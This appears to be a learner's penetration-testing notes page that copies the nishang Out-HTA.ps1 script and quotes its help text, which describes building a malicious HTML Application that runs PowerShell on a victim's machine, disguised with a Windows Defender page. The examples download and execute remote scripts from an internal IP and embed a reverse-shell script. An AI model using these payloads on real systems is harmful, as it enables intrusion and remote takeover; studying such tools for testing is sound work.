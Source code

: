 To solve this error will run this command from kali and try running the command again
```
cat /opt/nishang/Client/Out-HTA.ps1 | xclip -selection primary
```

Will get the code in the paste selection which we have to copy and we should be good to go
this is a new thing that i learnt today

```  
function Out-HTA
{
<#
.SYNOPSIS
Nishang script which could be used for generating "infected" HTML Application. It could be deployed on 
a web server and PowerShell scripts and commands could be executed on the target machine.

.DESCRIPTION
The script generates a HTA file with inline VBScript. The HTA should be deployed on a web server.
When a target browses to the HTA file and chooses to run it, PowerShell commands and scripts in it are executed.

The HTA is not visible as it is closed quickly. But in case, if the HTA becomes visible (for example in case of an error), it loads 
a live page related to Windows Defender from Microsoft website to look legit.

.PARAMETER Payload
Payload which you want execute on the target.

.PARAMETER PayloadURL
URL of the powershell script which would be executed on the target.

.PARAMETER PayloadScript
Path to the PowerShell script to be encoded in the HTA which would be executed on the target.

.PARAMETER Arguments
Arguments to the PowerShell script to be executed on the target.

.PARAMETER HTAFilePath
Path to the HTA file to be generated. Default is with the name WindDef_WebInstall.hta in the current directory.

.EXAMPLE
PS > Out-HTA -Payload "powershell.exe -ExecutionPolicy Bypass -noprofile -noexit -c Get-ChildItem"

Above command would execute Get-ChildItem on the target machine when the HTA is opened.

.EXAMPLE
PS > Out-HTA -PayloadURL http://192.168.254.1/Get-Information.ps1

Use above command to generate HTA and VBS files which download and execute the given powershell script in memory on target.

.EXAMPLE
PS > Out-HTA -PayloadURL http://192.168.254.1/powerpreter.psm1 -Arguments Check-VM

Use above command to pass an argument to the PowerShell script/module.

.EXAMPLE
PS > Out-HTA -PayloadScript C:\nishang\Shells\Invoke-PowerShellTcpOneLine.ps1

Use above when you want to use a PowerShell script as the payload. Note that if the script expects any parameter passed to it, 
you must pass the parameters in the script itself.

```